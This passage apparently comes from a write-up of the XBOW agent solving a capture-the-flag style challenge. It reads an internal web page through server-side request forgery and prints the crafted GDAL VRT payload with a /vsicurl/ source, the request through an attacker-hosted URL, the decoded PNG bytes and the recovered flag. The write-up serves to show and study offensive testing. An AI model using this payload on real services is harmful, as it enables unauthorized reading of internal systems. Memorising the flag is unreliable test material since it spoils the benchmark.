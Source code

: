 ```
```

![](https://xbow.com/sparkle-white.webp)

After unfiltering and extracting the gray channel values, XBOW successfully decoded: `<html>`

```
Filter type: 1
Filtered scanline data length: 128
Unfiltered scanline data (hex):
3cff68ff74ff6dff6cff3eff0aff3cff70ff3eff66ff6cff61ff67ff7bff37ff64ff34ff32ff38ff30ff38ff65ff2dff63
34ff36ff33ff2dff34ff36ff63ff62ff2dff62ff62ff61ff66ff2dff64ff32ff30ff32ff30ff30ff34ff36ff35ff34ff39
31ff7dff3cff2fff70ff3eff0aff3cff2fff68ff74ff6dff6cff3eff

Candidate Flag: <html>
```

The candidate flag was promising, we just need more of it! With the technique proven, XBOW expanded the VRT to read larger amounts of

```
Our VRT's `VRTRawRasterBand` read the beginning of this HTML page as raw bytes.
We need to see more of this HTML page. Our VRT was `rasterXSize="64"`, so it read 64 bytes of the HTML page. The content `<html>\n<...` is consistent with this.

We need to make the VRT read more data.
- Change `rasterXSize` to a larger value, e.g., 512 or 1024, to capture more of the HTML.
- The `LineOffset` in the VRT should match `rasterXSize`.

Let's create a new VRT that attempts to read, say, the first 512 bytes.

# VRT to read 512 bytes instead of 64
vrt_content = f"""<VRTDataset rasterXSize="512" rasterYSize="1">
  <VRTRasterBand dataType="Byte" band="1" subClass="VRTRawRasterBand">
    <SourceFilename relativeToVRT="0">/vsicurl/http://[REDACTED]/</SourceFilename>
    <ImageOffset>0</ImageOffset>
    <PixelOffset>1</PixelOffset>
    <LineOffset>512</LineOffset>
    <ByteOrder>LSB</ByteOrder>
  </VRTRasterBand>
</VRTDataset>"""
```

![](https://xbow.com/sparkle-white.webp)

This successfully extracted the complete flag:

```
Attempting to render more data as raw pixel data via VRT.
Fetching:
https://[REDACTED]/cog/preview.png?url=http%3A%2F%2F18.226.248.200%2Fpentester0%2F
t_more_data.vrt%3Fcb%3D1749355457&max_size=2048
Output image created: /home/pentester0/more_data_output.png, Size: 166 bytes
Extracted IDAT data length: 109
Filter type: 1

Decoded HTML content part (512 bytes from Gray channel):
--------------------
<html>
<p>flag{7d42808e-c463-46cb-bbaf-d20200465491}</p>
</html>

--------------------
```
